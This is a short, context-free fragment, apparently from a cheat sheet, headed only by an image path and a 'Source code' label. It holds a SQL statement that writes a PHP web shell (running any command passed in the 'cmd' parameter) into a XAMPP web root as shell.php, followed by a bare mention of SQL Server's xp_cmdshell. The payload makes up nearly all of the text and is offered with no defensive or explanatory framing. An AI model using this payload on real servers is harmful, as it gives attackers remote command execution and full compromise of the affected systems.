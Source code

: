 `SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"`

`xp_cmdshell()`
